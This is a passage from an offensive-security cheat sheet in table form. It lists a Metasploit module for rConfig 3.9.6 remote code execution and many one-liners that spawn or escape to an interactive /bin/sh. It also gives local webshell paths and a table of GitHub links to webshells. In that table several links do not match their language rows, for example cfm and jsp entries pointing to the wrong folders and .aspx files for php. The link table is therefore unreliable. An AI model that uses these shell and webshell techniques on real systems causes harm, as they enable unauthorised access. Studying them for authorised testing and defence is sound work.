 | `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`                                       | Metasploit exploit module that can be used to obtain a reverse shell on a vulnerable Linux system hosting rConfig 3.9.6                                                                                  |
| `python -c 'import pty; pty.spawn("/bin/sh")'`                                                      | Python command used to spawn an interactive shell on a Linux-based system                                                                                                                                |
| `/bin/sh -i`                                                                                        | Spawns an interactive shell on a Linux-based system                                                                                                                                                      |
| `perl -e 'exec "/bin/sh";'`                                                                         | Uses Perl to spawn an interactive shell on a Linux-based system                                                                                                                                          |
| `ruby: exec "/bin/sh"`                                                                              | Uses Ruby to spawn an interactive shell on a Linux-based system                                                                                                                                          |
| `Lua: os.execute('/bin/sh')`                                                                        | Uses Lua to spawn an interactive shell on a Linux-based system                                                                                                                                           |
| `awk 'BEGIN {system("/bin/sh")}'`                                                                   | Uses the awk command to spawn an interactive shell on a Linux-based system                                                                                                                               |
| `find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`                             | Uses the find command to spawn an interactive shell on a Linux-based system                                                                                                                              |
| `find . -exec /bin/sh \; -quit`                                                                     | An alternative way to use the find command to spawn an interactive shell on a Linux-based system                                                                                                         |
| `vim -c ':!/bin/sh'`                                                                                | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells"                                                                                                              |
| `ls -la <path/to/fileorbinary>`                                                                     | Used to list files & directories on a Linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute             |
| `sudo -l`                                                                                           | Displays the commands that the currently logged on user can run as sudo                                                                                                                                  |
| `/usr/share/webshells/laudanum`                                                                     | Location of laudanum webshells on ParrotOS and Pwnbox                                                                                                                                                    |
| `/usr/share/nishang/Antak-WebShell`                                                                 | Location of Antak-Webshell on Parrot OS and Pwnbox                                                                                                                                                       |



<br>
<br>
<br>
<br>

| language  | WebShells       | url                                                                             |
| --------- | --------------- | ------------------------------------------------------------------------------- |
| aspx      | Antak           | https://github.com/samratashok/nishang                                          |
| aspx      | Laudanum        | https://github.com/jbarcia/Web-Shells/blob/master/laudanum/aspx/shell.aspx      |
| asp       | Laudanum        | https://github.com/jbarcia/Web-Shells/blob/master/laudanum/aspx/shell.aspx      |
| cfm       | Laudanum        | https://github.com/jbarcia/Web-Shells/blob/master/laudanum/asp/shell.aspx       |
| jsp       | Laudanum        | https://github.com/jbarcia/Web-Shells/blob/master/laudanum/cfm/shell.aspx       |
| php       | Laudanum        | https://github.com/jbarcia/Web-Shells/blob/master/laudanum/php/shell.aspx       |
| wordpress | Laudanum        | https://github.com/jbarcia/Web-Shells/blob/master/laudanum/wordpress/shell.aspx |
| php       | WhiteWinterWolf | https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php |
